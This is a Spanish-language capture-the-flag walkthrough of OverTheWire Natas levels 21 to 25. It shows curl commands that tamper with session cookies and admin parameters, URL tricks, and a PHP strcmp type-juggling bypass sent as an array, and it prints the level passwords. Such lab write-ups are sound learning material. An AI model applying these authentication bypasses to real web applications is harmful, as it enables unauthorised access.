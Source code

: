 ```
curl --cookie "PHPSESSID=ojoooooo" -u natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ 'http://natas21-experimenter.natas.labs.overthewire.org/index.php?submit=update&admin=1'
curl --cookie "PHPSESSID=ojoooooo" -u natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ 'http://natas21.natas.labs.overthewire.org'

The credentials for the next level are:<br><pre>Username: natas22
Password: chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ</pre>
```

# natas22

Sorprendentemente sencillo, basta con añadir ?revelio en el GET. Luego he visto que hay una complicación (una redirección) que se vence, por ejemplo, usando curl (que es lo que yo había usado por casualidad desde el principio)

Username: natas23
Password: D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE

# natas23

Esta vuelve a ser casi trivial leyendo el source:

http://natas23.natas.labs.overthewire.org/?passwd=11iloveyou

Username: natas24 Password: OsRmXFguozKpTZZ5X14zNO43379LZveg

# natas24

Este es tremendo O_o. La única operación que hay en la fuente es un strcmp y lo que podemos controlar es la password que pasamos por GET/POST.

Buscando en Google hay un documento sobre "type juggling" (https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf) que da la pista necesaria: hacer fallar el strcmp enviando... ¡un array! Este comportamiento está también documentado en https://www.owasp.org/index.php/PHP_Security_Cheat_Sheet.

En consecuencia:

```
http://natas24.natas.labs.overthewire.org/?passwd[]=foo

 Warning: strcmp() expects parameter 1 to be string, array given in /var/www/natas/natas24/index.php on line 23

The credentials for the next level are:

Username: natas25 Password: GHF6X7YwACaYYssHVY05cFq83hRktl4c
```

# natas25
